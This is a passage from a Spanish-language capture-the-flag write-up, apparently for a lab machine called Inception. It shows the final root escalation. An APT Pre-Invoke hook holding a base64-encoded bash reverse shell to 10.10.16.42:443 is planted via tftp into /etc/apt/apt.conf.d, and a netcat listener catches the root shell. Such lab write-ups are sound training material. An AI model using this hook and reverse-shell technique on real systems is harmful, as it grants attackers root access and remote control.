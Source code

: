 ```bash
root@Inception:/tmp# ls
test.txt
root@Inception:/tmp# tftp 192.168.0.1
tftp> put test.txt /tmp/test.txt
Sent 6 bytes in 0.0 seconds
tftp>

ftp> ls /tmp
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwt    2 0        0            4096 May 05 15:41 VMwareDnD
drwx------    3 0        0            4096 May 05 15:41 systemd-private-c0fa0db3551f468ea6d53e90956fb656-systemd-timesyncd.service-rm2hXp
-rw-rw-rw-    1 0        0               5 May 05 21:05 test.txt
drwx------    2 0        0            4096 May 05 15:42 vmware-root
226 Directory send OK.
```
Al tratar de encontrar formas de aprovechar esto sabiendo que la tarea cron es importante me encontre un <a href='https://www.cyberciti.biz/faq/debian-ubuntu-linux-hook-a-script-command-to-apt-get-upgrade-command/'>articulo</a> en el cual explican cosas interesantes.
Asi que cree un archivo llamado reverse con el siguiente contenido
APT::Update::Pre-Invoke {"echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40Mi80MzMgMD4mMScK | base64 -d | bash";};
Primero encodee todo a base64 y luego con un echo coloque todo en un archivo.
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.42/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40Mi80MzMgMD4mMScK
root@Inception:/tmp# echo 'APT::Update::Pre-Invoke {"echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40Mi80MzMgMD4mMScK | base64 -d | bash";};' > reverse
root@Inception:/tmp# cat reverse
APT::Update::Pre-Invoke {"echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi40Mi80MzMgMD4mMScK | base64 -d | bash";};

root@Inception:/tmp# tftp 192.168.0.1
tftp> put reverse /etc/apt/apt.conf.d/reverse
Sent 124 bytes in 0.0 seconds
tftp>
```
Lo subi y deberia de llegarme en unos minutos una reverse shell.
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.42] from (UNKNOWN) [10.129.192.85] 60116
bash: cannot set terminal process group (5876): Inappropriate ioctl for device
bash: no job control in this shell
root@Inception:/tmp# whoami
whoami
root
```
Hemos pwneado la maquina!!
